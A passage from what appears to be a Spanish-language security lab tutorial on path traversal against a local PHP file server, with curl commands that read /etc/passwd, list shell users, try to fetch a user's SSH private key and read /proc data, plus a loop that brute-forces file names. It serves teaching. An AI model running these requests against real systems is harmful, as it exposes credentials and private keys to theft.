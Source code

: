 Lanzamos un pequeño servidor que devuelve lo que encuentre en una carpeta. Crearemos un fichero de texto 1.txt cuyo contenido sea "Contenido de 1.txt".

Mientras que las peticiones las haremos sin un navegador web, directamente con el binario curl. La petición que haremos será:

```shell
curl localhost:8888/index.php?parametro1=1.txt
```

Recuperamos el contenido de 1.txt. Pero podemos crear un script que compruebe si existen ficheros por una pequeña fuerza bruta. Por ejemplo, para comprobar cómo tendríamos acceso a otros ficheros, crearemos 3 ficheros de texto: 1.txt, 2.txt y 3.txt.

```sh
#set -x #depurando líneas
for i in $(seq 1 10);do
curl localhost:8000/index.php?parametro1=$i.txt
echo ""
sleep 1
done
```

### Ejercicio 14

Otra vulnerabilidad que tiene este fichero (que consiste realmente en la base del Path Traversal) es que permite devolver ficheros del sistema de ficheros del disco duro, es decir si ejecutamos: 

```shell
curl localhost:8888/index.php?parametro1=1/etc/passwd
```

Obtenemos el contenido del fichero passwd. Ahora con esta información podríamos saber qué usuarios utilizan **Bash** o **sh** con: 

```shell
curl -s "http://localhost:8888/index.php?parametro1=/etc/passwd" | grep "sh$"
```

Ahora, podríamos intentar recuperar valores relacionados con RSA: 

```shell
curl -s "http://localhost:8888/index.php?parametro1=/home/USER/.ssh/id_rsa"
```

O también podemos intentar recuperar el listado de procesos que se están ejecutando: 

```shell
curl localhost:8888/index.php?parametro1=/proc/sched_debug
```

### Ejercicio 15

Ahora, por ejemplo, para ver cómo realmente sí que accedemos a la info de los procesos en ejecución (como si fuera un comando `ps`), vamos a dejar lanzando un `sleep 10000` en un script en el servidor, es decir, el script que vamos a ejecutar se llamará `encuentrame.sh` y contiene dos líneas: 

```sh
#!/bin/bash
sleep 10000000
```
